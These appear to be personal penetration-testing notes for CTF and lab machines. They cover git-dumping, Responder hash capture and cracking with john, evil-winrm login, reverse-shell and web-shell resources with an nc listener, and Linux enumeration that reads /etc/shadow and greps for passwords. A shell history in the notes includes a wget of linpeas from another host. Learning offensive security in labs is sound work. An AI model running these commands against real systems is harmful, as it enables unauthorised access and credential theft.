<ul class="c8 lst-kix_list_98-0 start"><li class="c0 c5 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://github.com/arthaud/git-dumper&amp;sa=D&amp;source=editors&amp;ust=1699590511496042&amp;usg=AOvVaw3xAe-XPwtJQI1sneAMFK_r">https://github.com/arthaud/git-dumper</a></li></ul><ul class="c8 lst-kix_list_99-0 start"><li class="c0 c5 li-bullet-0">A tool to dump a git repository from a website.</li></ul>
</li></ul>

</li>
</ul>
<ul>
  <li><B>GitTools</B></li>
<ul class="c8 lst-kix_list_100-0 start"><li class="c0 c5 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://github.com/internetwache/GitTools&amp;sa=D&amp;source=editors&amp;ust=1699590511496686&amp;usg=AOvVaw2hldt_pG_Ry5BOM5TskE6H">https://github.com/internetwache/GitTools</a></li></ul><ul class="c8 lst-kix_list_101-0 start"><li class="c0 c5 li-bullet-0">You can use this tool to find websites with their .git repository available to the public.</li><li class="c0 c5 li-bullet-0">GitTools is pretty simple to use, just grab the URL from the GitHub rep:</li></ul>


<ul class="c8 lst-kix_list_102-0 start"><li class="c0 c5 li-bullet-0">Then you can run it (I created a folder called &ldquo;Dumped&rdquo; for the results):</li></ul>
&#9484;&#9472;&#9472;(kali&#12927;kali)-[~/Desktop/GitTools/Dumper]

&#9492;&#9472;$ ./gitdumper.sh http://10.10.60.113/.git/ ~/GitHappens/Dumped


<ul class="c8 lst-kix_list_103-0 start"><li class="c0 c5 li-bullet-0">Next, cd into that &quot;Dumped&quot; folder:</li></ul>
&#9484;&#9472;&#9472;(kali&#12927;kali)-[~/GitHappens]

&#9492;&#9472;$ cd Dumped &nbsp; &nbsp;

&nbsp;
<ul class="c8 lst-kix_list_104-0 start"><li class="c0 c5 li-bullet-0">Run &quot;ls -lah&quot; to view the newly created .git directory:</li></ul>
&#9484;&#9472;&#9472;(kali&#12927;kali)-[~/GitHappens/Dumped]

&#9492;&#9472;$ ls &ndash;lah

<ul class="c8 lst-kix_list_105-0 start"><li class="c0 c5 li-bullet-0">cd into that .git folder:</li></ul>
&#9484;&#9472;&#9472;(kali&#12927;kali)-[~/GitHappens/Dumped]

&#9492;&#9472;$ cd .git &nbsp;



<ul class="c8 lst-kix_list_106-0 start"><li class="c0 c5 li-bullet-0">Run &quot;ls -lah&quot; to view the contents of the newly created .git directory:</li></ul>
&#9484;&#9472;&#9472;(kali&#12927;kali)-[~/GitHappens/Dumped/.git]

&#9492;&#9472;$ ls -lah



<ul class="c8 lst-kix_list_107-0 start"><li class="c0 c5 li-bullet-0">Now you can run &ldquo;git log&rdquo; to view the contents of the logs:</li></ul>
Note: To back out, you can just type the letter q:

&#9484;&#9472;&#9472;(kali&#12927;kali)-[~/GitHappens/Dumped/.git]

&#9492;&#9472;$ git log

<ul class="c8 lst-kix_list_108-0 start"><li class="c0 c5 li-bullet-0">Each commit has its own unique identifier and if you see a commit you want to display, you can just use, &ldquo;git show &lt;commit id&gt;</li></ul>
Note: To back out, you can just type the letter q:

&#9484;&#9472;&#9472;(kali&#12927;kali)-[~/GitHappens/Dumped/.git]

&#9492;&#9472;$ git show 2eb93ac3534155069a8ef59cb25b9c1971d5d199



<ul class="c8 lst-kix_list_108-0"><li class="c0 c5 li-bullet-0">Each commit has its own unique identifier and if you see a commit you want to display, you can just use, &ldquo;git show &lt;commit id&gt;</li></ul>

<ul class="c8 lst-kix_list_108-0"><li class="c0 c5 li-bullet-0">If you want to view like the last 100 commits at once, you can use:</li></ul>
Note: To back out, you can just type the letter q:&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;

&#9484;&#9472;&#9472;(kali&#12927;kali)-[~/GitHappens/Dumped/.git]

&#9492;&#9472;$ git log -p &ndash;100

<ul class="c8 lst-kix_list_109-0 start"><li class="c0 c5 li-bullet-0">You can also grep for like the term &quot;password&quot;:</li></ul>
&#9484;&#9472;&#9472;(kali&#12927;kali)-[~/GitHappens/Dumped/.git]

&#9492;&#9472;$ git log -p -100 | grep password

</li></ul>

</li>
</ul>
<ul>
  <li><B>ProxyChains</B></li>
<ul class="c8 lst-kix_list_91-0"><li class="c0 c5 li-bullet-0">ProxyChains may find open ports that a plain nMap scan will not.

proxychains -q nmap -n -sT -Pn -p 22,80,443,5432 10.10.128.242


 
 



-Same scan as an open port only scan:



</li></ul>

</li>
</ul>
<ul>
  <li><B>Website Scanners:</B></li>
<ul class="c8 lst-kix_list_110-0 start"><li class="c0 c5 li-bullet-0">Website Scanners can help us see what's behind the curtain:</li></ul>
 
<ul class="c8 lst-kix_list_111-0 start"><li class="c0 c5 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://wappalyzer.com/&amp;sa=D&amp;source=editors&amp;ust=1699590511501123&amp;usg=AOvVaw2KeBNIl43Y280bROAIuedR">https://wappalyzer.com</a></li><li class="c0 c5 li-bullet-0">NetCraft: <a class="c6" href="https://www.google.com/url?q=https://sitereport.netcraft.com/&amp;sa=D&amp;source=editors&amp;ust=1699590511501584&amp;usg=AOvVaw2DC2zjJh3S7xUh4Rw57t8g">https://sitereport.netcraft.com</a></li><li class="c0 c5 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://sitecheck.sucuri.net/&amp;sa=D&amp;source=editors&amp;ust=1699590511501930&amp;usg=AOvVaw0GdMOMwYTbXELcyKT7I7RK">https://sitecheck.sucuri.net</a></li><li class="c0 c5 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://builtwith.com/&amp;sa=D&amp;source=editors&amp;ust=1699590511502262&amp;usg=AOvVaw01pkIjrzBLTihn_IIHb586">https://BuiltWith.com</a></li><li class="c0 c5 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://requestcatcher.com/&amp;sa=D&amp;source=editors&amp;ust=1699590511502574&amp;usg=AOvVaw2NqYLG4H5VjijRuYf4XO_p">https://requestcatcher.com</a></li></ul>

</li>
</ul>
<ul>
  <li><B>Reverse Shells:</B></li>
<ul class="c8 lst-kix_list_43-0"><li class="c0 li-bullet-0">Reverse shells are often leveraged by attackers due to their ability to circumvent firewalls and instead take advantage of a vulnerability on the machine they want to access, then establishing a call-back from that machine to their own.</li></ul>
 
<ul class="c8 lst-kix_list_78-0"><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://github.com/swisskyrepo/PayloadsAllTheThings&amp;sa=D&amp;source=editors&amp;ust=1699590511503053&amp;usg=AOvVaw2lNMNjm6v2sRjFbxqkYROO">https://github.com/swisskyrepo/PayloadsAllTheThings</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://gitlab.com/kalilinux/packages/webshells&amp;sa=D&amp;source=editors&amp;ust=1699590511503406&amp;usg=AOvVaw3EQh50gZWGfO8bSQ8uFH4j">https://gitlab.com/kalilinux/packages/webshells</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://pentestmonkey.net/tools/web-shells/php-reverse-shell&amp;sa=D&amp;source=editors&amp;ust=1699590511503738&amp;usg=AOvVaw2chiuYZsqMLRZE5wuA8cwK">https://pentestmonkey.net/tools/web-shells/php-reverse-shell</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://www.revshells.com/&amp;sa=D&amp;source=editors&amp;ust=1699590511504058&amp;usg=AOvVaw0wWLLJKCYU2ZuEwrXrQkrI">https://www.revshells.com</a></li></ul>

<ul class="c8 lst-kix_list_112-0 start"><li class="c0 li-bullet-0">Not all reverse shells are compatible with both UNIX-like and Windows systems with no modification. &nbsp;Here&rsquo;s one that works for both:</li></ul><ul class="c8 lst-kix_list_113-0 start"><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://github.com/WhiteWinterWolf/wwwolf-php-webshell&amp;sa=D&amp;source=editors&amp;ust=1699590511504564&amp;usg=AOvVaw17qlq56GSB43Yorlo5ON29">https://github.com/WhiteWinterWolf/wwwolf-php-webshell</a></li></ul>

<ul class="c8 lst-kix_list_112-0"><li class="c0 li-bullet-0">To set up the listening port for the reverse shell, here&rsquo;s an example with a reverse shell set to port 4444. &nbsp;Be mindful of your port though, as boxes become more difficult, it&#39;s good to pick a port where you know a service is already running, because if it&#39;s already running, there&#39;s a good chance traffic is allowed to flow both ways. &nbsp;For example, on this machine, we saw with Nmap that RDP 3389 was open, so that port might be a good one for our reverse shell too.</li></ul>



&#9484;&#9472;&#9472;(root&#12927;kali)-[/home/kali/sweetrice]

&#9492;&#9472;# nc -lvnp 4444

</li></ul>

</li>
</ul>
<ul>
  <li><B>Web Shells</B></li>
<ul class="c8 lst-kix_list_43-0"><li class="c0 li-bullet-0">A web shell is a shell-like interface that enables a web server to be remotely accessed.</li></ul>
 
<ul class="c8 lst-kix_list_78-0"><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://github.com/swisskyrepo/PayloadsAllTheThings&amp;sa=D&amp;source=editors&amp;ust=1699590511505430&amp;usg=AOvVaw2hmPF9tbj63kgGvhFg7kAw">https://github.com/swisskyrepo/PayloadsAllTheThings</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://github.com/tennc/webshell&amp;sa=D&amp;source=editors&amp;ust=1699590511505749&amp;usg=AOvVaw2IIkgzFAWhdZWcAkSKmd7q">https://github.com/tennc/webshell</a></li><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://github.com/BlackArch/webshells&amp;sa=D&amp;source=editors&amp;ust=1699590511506083&amp;usg=AOvVaw1pOSmmnKoEAVbU7VMLgeST">https://github.com/BlackArch/webshells</a></li></ul>
</li></ul>

</li>
</ul>
<ul>
  <li><B>RDP (Remote Desktop Protocol)</B></li>
<ul class="c8 lst-kix_list_43-0"><li class="c0 li-bullet-0">RDP provides a user with a graphical interface to connect to another computer over a network connection.</li></ul>
 
<ul class="c8 lst-kix_list_114-0 start"><li class="c0 c5 li-bullet-0">For RDP, we can use the command: xfreerdp /u:wade /v:10.10.213.120</li></ul>
</li></ul>

</li>
</ul>
<ul>
  <li><B>Responder</B></li>
<ul class="c8 lst-kix_list_43-0"><li class="c0 li-bullet-0">Responder is a great tool for recon:</li></ul>
 
<ul class="c8 lst-kix_list_78-0"><li class="c0 li-bullet-0"><a class="c6" href="https://www.google.com/url?q=https://github.com/swisskyrepo/PayloadsAllTheThings&amp;sa=D&amp;source=editors&amp;ust=1699590511506735&amp;usg=AOvVaw09Nr2xRi4nE5hDm08X7zZc">https://github.com/swisskyrepo/PayloadsAllTheThings</a></li></ul>

<ul class="c8 lst-kix_list_115-0 start"><li class="c0 c5 li-bullet-0">We can run Responder on our Tunnel0 (zero):</li></ul>


<ul class="c8 lst-kix_list_116-0 start"><li class="c0 c5 li-bullet-0">Next, we can grab our Responder IP:</li></ul>

<ul class="c8 lst-kix_list_117-0 start"><li class="c0 c5 li-bullet-0">We then plug that ip into our browser using the URL below:</li></ul>

<ul class="c8 lst-kix_list_118-0 start"><li class="c0 c5 li-bullet-0">Once we do that, we&rsquo;re given a hash:</li></ul>


[+] Listening for events... &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;

[SMB] NTLMv2-SSP Client &nbsp; : 10.129.77.70

[SMB] NTLMv2-SSP Username : RESPONDER\Administrator

[SMB] NTLMv2-SSP Hash &nbsp; &nbsp; : Administrator::RESPONDER:ebaf7736556055e4:45FD988949712C0BFB6F9B0BD92EBC79:010100000000000080B0DA48E838D9017114CC6480F4388B0000000002000800550045005A00310001001E00570049004E002D005100450041003800300049004400520057004600480004003400570049004E002D00510045004100380030004900440052005700460048002E00550045005A0031002E004C004F00430041004C0003001400550045005A0031002E004C004F00430041004C0005001400550045005A0031002E004C004F00430041004C000700080080B0DA48E838D901060004000200000008003000300000000000000001000000002000005A4C8E36F8C57F769D30D7FDD526ADF95003316A3D3288F3D458C95488DD35E40A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100320036000000000000000000

<ul class="c8 lst-kix_list_119-0 start"><li class="c0 c5 li-bullet-0">Next, open a text editor of your choice, and paste in the hash, then name it &ldquo;hash&rdquo; and save/close it:</li></ul>

<ul class="c8 lst-kix_list_120-0 start"><li class="c0 c5 li-bullet-0">Now, let&rsquo;s crack it w/ john (John the Ripper):</li></ul>


&#9492;&#9472;# john --wordlist=/usr/share/wordlists/rockyou.txt Hash

-Result is &ldquo;badminton&rdquo;

</li></ul>

</li>
</ul>
<ul>
  <li><B>EvilWinRM</B></li>
<ul class="c8 lst-kix_list_43-0"><li class="c0 li-bullet-0">Can be used to load in-memory scripts, dll files, and so much more.</li></ul>

<ul class="c8 lst-kix_list_121-0 start"><li class="c0 c5 li-bullet-0">We were asked to remote into our target using a Windows service running on the box, for that we use &ldquo;evil-winrm&rdquo; with our username of &ldquo;Administrator&rdquo; and the password we now know, &ldquo;badminton&rdquo;:</li></ul>


&#9492;&#9472;# evil-winrm -i 10.129.77.i0 -u Administrator -p badminton

<ul class="c8 lst-kix_list_122-0 start"><li class="c0 c5 li-bullet-0">After we have a shell, we poke around to find the flag:</li></ul>

<ul class="c8 lst-kix_list_123-0 start"><li class="c0 c5 li-bullet-0">Some of the commands I used are below:</li></ul>

*Evil-WinRM* PS C:\Users\Administrator&gt; cd ..

*Evil-WinRM* PS C:\Users&gt; ls

*Evil-WinRM* PS C:\Users&gt; cd mike

*Evil-WinRM* PS C:\Users\mike&gt; ls

&nbsp; &nbsp; Directory: C:\Users\mike

Mode &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; LastWriteTime &nbsp; &nbsp; &nbsp; &nbsp; Length Name

---- &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; ------------- &nbsp; &nbsp; &nbsp; &nbsp; ------ ----

d----- &nbsp; &nbsp; &nbsp; &nbsp; 3/10/2022 &nbsp; 4:51 AM &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;Desktop

*Evil-WinRM* PS C:\Users\mike&gt; cd Desktop

*Evil-WinRM* PS C:\Users\mike\Desktop&gt; ls

&nbsp; &nbsp; Directory: C:\Users\mike\Desktop

Mode &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; LastWriteTime &nbsp; &nbsp; &nbsp; &nbsp; Length Name

---- &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; ------------- &nbsp; &nbsp; &nbsp; &nbsp; ------ ----

-a---- &nbsp; &nbsp; &nbsp; &nbsp; 3/10/2022 &nbsp; 4:50 AM &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; 32 flag.txt

*Evil-WinRM* PS C:\Users\mike\Desktop&gt; cat flag.txt

ea81b7afddd03efaa0945333ed147fac

*Evil-WinRM* PS C:\Users\mike\Desktop&gt;

<ul class="c8 lst-kix_list_43-0"><li class="c0 li-bullet-0">System Enumeration:</li></ul>

<ul class="c8 lst-kix_list_38-0"><li class="c0 c5 li-bullet-0">We can type &ldquo;hostname&rdquo; to find out what our hostname is. This can come in handy for CTF&rsquo;s because, for example, if the hostname is &ldquo;blue&rdquo;, a vulnerability on that machine might be &ldquo;Eternal Blue&rdquo;:</li></ul>


<ul class="c8 lst-kix_list_38-0"><li class="c0 c5 li-bullet-0">&ldquo;uname -a&rdquo; will tell us what Kernel the machine is running, which will in turn help us search for exploits against that box:</li></ul>

<ul class="c8 lst-kix_list_38-0"><li class="c0 c5 li-bullet-0">&ldquo;cat /proc/version&rdquo; will tell us similar information:</li></ul>

<ul class="c8 lst-kix_list_38-0"><li class="c0 c5 li-bullet-0">We can just copy and pasta the Linux Debian version:</li></ul>

<ul class="c8 lst-kix_list_38-0"><li class="c0 c5 li-bullet-0">Then we can plug that into Google and see if there are any exploits/vulns against it:</li></ul>



<ul class="c8 lst-kix_list_38-0"><li class="c0 c5 li-bullet-0">We can look at the etc issue, and see the distribution by typing &ldquo;cat /etc/issue&rdquo;:</li></ul>


<ul class="c8 lst-kix_list_38-0"><li class="c0 c5 li-bullet-0">If we want a quick look at the architecture, we can run &ldquo;lscpu&rdquo;. &nbsp;One example of how this can be useful is, if you find an exploit but it states it will only work on architectures with more than one core, and your target has a single core, then you know not to even try that particular exploit:</li></ul>


<ul class="c8 lst-kix_list_38-0"><li class="c0 c5 li-bullet-0">If we want to check what services are running, we can type &ldquo;ps aux&rdquo;&rdquo;</li></ul>

<ul class="c8 lst-kix_list_38-0"><li class="c0 c5 li-bullet-0">The Results are listed in a chronological order from which they were issued, so we can see the most recent command we ran (&ldquo;ps aux&rdquo;) down at the very bottom of the results:</li></ul>


<ul class="c8 lst-kix_list_38-0"><li class="c0 c5 li-bullet-0">We see an nginx server running with www data:</li></ul>

<ul class="c8 lst-kix_list_38-0"><li class="c0 c5 li-bullet-0">We see Apache is running, so most likely there&rsquo;s a Web Server running on there, which a simple check confirms:</li></ul>

<ul class="c8 lst-kix_list_38-0"><li class="c0 c5 li-bullet-0">We see &ldquo;root&rdquo; is running &ldquo;chron&rdquo;, so there must be some scheduled tasks on there:</li><li class="c0 c5 li-bullet-0">We also see a network file share:</li></ul>

<ul class="c8 lst-kix_list_38-0"><li class="c0 c5 li-bullet-0">Additionally, if you want to just see, for example, what services the root user is running, you can grep for that:</li></ul>


TCM@debian:~$ ps aux | grep root

<ul class="c8 lst-kix_list_124-0 start"><li class="c0 c5 li-bullet-0">Similarly, if we want to see all the services we are running right now, we can grep for our username:</li></ul>


TCM@debian:~$ ps aux | grep TCM

<ol class="c8 lst-kix_list_125-0 start" start="6"><li class="c0 c5 li-bullet-0">User Enumeration:</li></ol>

<ul class="c8 lst-kix_list_126-0 start"><li class="c51 c5 c55 li-bullet-0">We can run &ldquo;whoami&rdquo; to view our username, and hostname:</li></ul>


<ul class="c8 lst-kix_list_126-0"><li class="c0 c5 li-bullet-0">We can run &ldquo;id&rdquo; to find out our UserID, and our GroupID (we are in the &ldquo;user&rdquo; group, so we don&rsquo;t appear to have any elevated privileges):</li></ul>

<ul class="c8 lst-kix_list_126-0"><li class="c0 c5 li-bullet-0">We can run &ldquo;sudo -l&rdquo; to find out what permissions we do have, and we can see that we do have quite a few &ndash; it seems we could use quite a few commands as root with no password. &nbsp;For example, we could run &ldquo;sudo nano&rdquo; without any password, and it would work. &nbsp;More to come on that::</li></ul>


<ul class="c8 lst-kix_list_127-0 start"><li class="c0 c5 li-bullet-0">Next, let&rsquo;s &nbsp;type &ldquo;cat /etc/passwd&rdquo; which will show us all of our users:</li></ul>


TCM@debian:~$ cat /etc/passwd

<ul class="c8 lst-kix_list_127-0"><li class="c0 c5 li-bullet-0">As a trick to further distill our results down, we can type &ldquo;cat /etc/passwd | cut -d : -f 1&rdquo; which translates to, cut on the delimiter of a colon, and then show results only of field 1:</li></ul>


TCM@debian:~$ cat /etc/passwd | cut -d : -f 1

<ul class="c8 lst-kix_list_127-0"><li class="c0 c5 li-bullet-0">Let&rsquo;s see if we have access to any sensitive files by starting with &ldquo;cat /etc/shadow&rdquo;, and we see that we do, we will get into that later:</li></ul>


TCM@debian:~$ cat /etc/shadow

<ul class="c8 lst-kix_list_127-0"><li class="c0 c5 li-bullet-0">Next, along those same lines, let&rsquo;s see if we have access to any more sensitive files by typing &ldquo;cat /etc/group:</li></ul>


TCM@debian:~$ cat /etc/group

<ul class="c8 lst-kix_list_127-0"><li class="c0 c5 li-bullet-0">Now, let&rsquo;s see if there&rsquo;s anything interesting in our history by typing &ldquo;history&rdquo;:</li></ul>

TCM@debian:~$ history

&nbsp; &nbsp;1 &nbsp;ls -al &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;

&nbsp; &nbsp; 2 &nbsp;cat .bash_history &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; 

&nbsp; &nbsp; 3 &nbsp;ls -al

&nbsp; &nbsp; 4 &nbsp;mysql -h somehost.local -uroot &ndash;ppassword123

&nbsp; &nbsp; 5 exit &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; 

&nbsp; &nbsp; 6 &nbsp;cd /tmp &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; 

&nbsp; &nbsp; 7 &nbsp;clear

&nbsp; 8 &nbsp;ifconfig

&nbsp; &nbsp; 9 &nbsp;netstat -antp

&nbsp; &nbsp;10 &nbsp;nano myvpn.ovpn 

&nbsp; &nbsp;11 &nbsp;ls

&nbsp; &nbsp;12 &nbsp;cd tools/

&nbsp; &nbsp;13 &nbsp;mkdir linux-exploit-suggester

&nbsp; &nbsp;14 &nbsp;cd linux-exploit-suggester/

&nbsp; &nbsp;15 &nbsp;nano linux-exploit-suggester.sh

&nbsp; &nbsp;16 &nbsp;chmod +x linux-exploit-suggester.sh 

&nbsp; &nbsp;17 &nbsp;cat /etc/issue

&nbsp; &nbsp;18 &nbsp;uname -a

&nbsp; &nbsp;19 &nbsp;cat /etc/lsb-release

&nbsp; &nbsp;20 &nbsp;cat /etc/passwd | cut -d: -f1

&nbsp; &nbsp;21 &nbsp;awk -F: &#39;($3 == &quot;0&quot;) {print}&#39; /etc/passwd

&nbsp; &nbsp;22 &nbsp;cat /proc/version

&nbsp; &nbsp;23 &nbsp;uname -a

&nbsp; &nbsp;24 &nbsp;hostname

&nbsp; &nbsp;25 &nbsp;lscpu

&nbsp; &nbsp;26 &nbsp;cat /etc/profile

&nbsp; &nbsp;27 &nbsp;lpstat -a

&nbsp; &nbsp;28 &nbsp;cat /etc/issue

&nbsp; &nbsp;29 &nbsp;cat /proc/version 

&nbsp; &nbsp;30 &nbsp;ps aux

&nbsp; &nbsp;31 &nbsp;cat /etc/services 

&nbsp; &nbsp;32 &nbsp;ps aux | grep root

&nbsp; &nbsp;33 &nbsp;history

&nbsp; &nbsp;34 &nbsp;nano .bash_history

&nbsp; &nbsp;35 &nbsp;history 

&nbsp; &nbsp;36 &nbsp;ls

&nbsp; &nbsp;37 &nbsp;cd tools/

&nbsp; &nbsp;38 &nbsp;ls

&nbsp; &nbsp;39 &nbsp;cd linux-exploit-suggester/

&nbsp; &nbsp;40 &nbsp;ls

&nbsp; &nbsp;41 &nbsp;cd ..

&nbsp; &nbsp;42 &nbsp;mkdir linpeas

&nbsp; &nbsp;43 &nbsp;cd linpeas/

&nbsp; &nbsp;44 &nbsp;wget <a class="c6" href="https://www.google.com/url?q=http://192.168.4.51/linpeas.sh&amp;sa=D&amp;source=editors&amp;ust=1699590511517966&amp;usg=AOvVaw1D_dcPOQXXcmeAFcDX6lJY">http://192.168.4.51/linpeas.sh</a>

&nbsp; &nbsp;45 &nbsp;ls

&nbsp; &nbsp;46 &nbsp;chmod +x linpeas.sh 

&nbsp; &nbsp;47 &nbsp;ls

&nbsp; &nbsp;48 &nbsp;cd ..

&nbsp; &nbsp;49 &nbsp;mkdir linenum

&nbsp; &nbsp;50 &nbsp;cd linenum/

&nbsp; &nbsp;51 &nbsp;nano linenum.sh

&nbsp; &nbsp;52 &nbsp;chmod +x linenum.sh 

&nbsp; &nbsp;53 &nbsp;ls

&nbsp; &nbsp;54 &nbsp;cd ..

&nbsp; &nbsp;55 &nbsp;ls

&nbsp; &nbsp;56 &nbsp;cat /etc/passwd

&nbsp; &nbsp;57 &nbsp;cat /etc/passwd | cut &ndash;d : -f 1

&nbsp; &nbsp;58 &nbsp;cat /etc/passwd | cut -d : -f 1

&nbsp; &nbsp;59 &nbsp;cat /etc/shadow

&nbsp; &nbsp;60 &nbsp;cat /etc/group

&nbsp; &nbsp;61 &nbsp;history

TCM@debian:~$

<ul class="c8 lst-kix_list_127-0"><li class="c0 c5 li-bullet-0">We can try to see if we can access another user account by typing &nbsp;&ldquo;sudo su -&rdquo; (sudo switch user) and then our password, but we don&rsquo;t have that access at this point. It&rsquo;s always worth trying to see if we can switch into another account such as root, or one with greater privileges:</li></ul>

<ol class="c8 lst-kix_list_128-0 start" start="7"><li class="c0 c5 li-bullet-0">Network Enumeration:</li></ol>

<ul class="c8 lst-kix_list_129-0 start"><li class="c0 c5 li-bullet-0">We can run &ldquo;ifconfig&rdquo; which will tell us a bit about our network configuration (might not work with all versions of Linux):</li></ul>

<ul class="c8 lst-kix_list_129-0"><li class="c0 c5 li-bullet-0">We can run &ldquo;ip a&rdquo; which will tell us a bit about our network configuration (might not work with all versions of Linux):</li></ul>

<ul class="c8 lst-kix_list_129-0"><li class="c0 c5 li-bullet-0">We can type &ldquo;route&rdquo; which will tell us a bit more about our network configuration (might not work with all versions of Linux):</li></ul>

<ul class="c8 lst-kix_list_129-0"><li class="c0 c5 li-bullet-0">We can type &ldquo;ip route&rdquo; which will tell us a bit more about our network configuration (might not work with all versions of Linux):</li></ul>


<ul class="c8 lst-kix_list_129-0"><li class="c0 c5 li-bullet-0">We can type &ldquo;arp -a&rdquo; which will tell us a bit about who/what machines we are communicating with (might not work with all versions of Linux):</li></ul>

<ul class="c8 lst-kix_list_129-0"><li class="c0 c5 li-bullet-0">Similarly, we can type &ldquo;ip neigh&rdquo; which will tell us a bit about who/what machines we are communicating with (might not work with all versions of Linux):</li></ul>

<ul class="c8 lst-kix_list_129-0"><li class="c0 c5 li-bullet-0">We can also type &ldquo;netstat -ano&rdquo; which will tell us what ports are open, and which machines we are communicating with (might not work with all versions of Linux):</li></ul>


<ol class="c8 lst-kix_list_130-0 start" start="8"><li class="c0 c5 li-bullet-0">Password Enumeration:</li></ol>

<ul class="c8 lst-kix_list_131-0 start"><li class="c0 c5 li-bullet-0">We can use grep for this by typing: grep --color=auto -rnw &#39;/&#39; -ie &quot;PASSWORD&quot; --color=always 2&gt; /dev/null</li></ul>
-This will look for the word &quot;password&quot; anywhere in files and color any findings in red:


<ul class="c8 lst-kix_list_132-0 start"><li class="c0 c5 li-bullet-0">Let&rsquo;s narrow down our results as that was a very broad search. &nbsp;Let&rsquo;s add an equal sign to password: &nbsp;</li></ul>
TCM@debian:~$ grep --color=auto -rnw &#39;/&#39; -ie &quot;PASSWORD=&quot; --color=always 2&gt; /dev/null

<ul class="c8 lst-kix_list_133-0 start"><li class="c0 c5 li-bullet-0">We could also search for passwords with the following command:</li></ul>
TCM@debian:~$ grep --color=auto -rnw &#39;/&#39; -ie &quot;PASS=&quot; --color=always 2&gt; /dev/null


